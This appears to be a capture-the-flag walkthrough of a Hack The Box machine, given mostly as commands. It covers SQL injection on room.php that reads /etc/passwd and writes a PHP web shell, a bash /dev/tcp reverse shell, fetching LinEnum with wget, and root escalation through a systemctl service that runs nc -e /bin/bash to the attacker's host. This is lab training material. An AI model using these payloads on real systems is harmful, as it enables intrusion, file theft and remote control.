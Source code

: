 ```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
LinEnum
PrivEsc - systemctl
```

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.143
```
![image](https://user-images.githubusercontent.com/33616880/231966154-8ab1d289-572e-4097-8072-e2a664de70ca.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.143/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231966267-6a6058e9-6223-44d8-acd9-72244a55407f.png)


```
http://10.10.10.143/room.php?cod=2
```
![image](https://user-images.githubusercontent.com/33616880/231967239-40ac1ae1-c35f-4c56-9740-62bd236b9436.png)


```
http://10.10.10.143/room.php?cod=2%20and%201=1
```
![image](https://github.com/regarmulia/HTB/assets/33616880/954aab73-ed1c-419c-8120-3785d666d6ad)

![image](https://user-images.githubusercontent.com/33616880/231967993-6a81e947-d988-4e23-9042-a8ba3eb2bca0.png)

```
https://book.hacktricks.xyz/pentesting-web/sql-injection
http://10.10.10.143/room.php?cod=2%20and%20sleep(1)
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ddf2a7c4-21db-4f02-b720-c395f310f43d)

![image](https://github.com/regarmulia/HTB/assets/33616880/3d1f65d6-d527-4714-96fd-937e21ca143e)


```
http://10.10.10.143/room.php?cod=2%20UNION%20SELECT%201,2,3,4,5,6
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e3378196-1f96-4498-80f3-f98126a10cb9)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%20@@version,2,3,4,5,6,7
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d80371a3-ed4b-47d9-affa-b27701b9a6e0)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,2,gRoUp_cOncaT(0x7c,schema_name,0x7c),4,5,6,7%20fRoM%20information_schema.schemata
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,load_file(%27/etc/passwd%27),3,4,5,6,7
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1c55adc4-ecb8-406c-96cd-15128c20c4ba)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,load_file(%27/etc/passwd%27),3,4,5,6,7%20into%20outfile%20%27/var/www/html/hacked.txt%27
http://10.10.10.143/hacked.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/35d70a8f-2890-487a-a5a3-fc324b50d5e8)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,%27%3C?php%20system($_REQUEST[%22exec%22]);?%3E%27,3,4,5,6,7%20into%20outfile%20%27/var/www/html/pwned.php%27
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=whoami'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/726e93c7-7eaa-4d83-9219-6744746e6189)


```
nc -nlvp 1234
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.3/1234 0>&1"'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ad41ebca-08db-4c49-ab26-25955092ca08)





```
wget 10.10.14.8/LinEnum.sh
./LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/231979671-3ca30d26-3d40-412d-9cca-28b91cfaf839.png)
![image](https://user-images.githubusercontent.com/33616880/231979698-96af9d79-761b-4c32-a848-0c182173242e.png)


https://gtfobins.github.io/gtfobins/systemctl/
```
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.8 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
```
```
systemctl link /home/pepper/pwn.service
systemctl start pwn
```
![image](https://user-images.githubusercontent.com/33616880/231983233-c91e3200-561c-4995-8062-6cec3de97037.png)
![image](https://user-images.githubusercontent.com/33616880/231983256-1099084a-99c6-4477-a764-4c9530724f65.png)



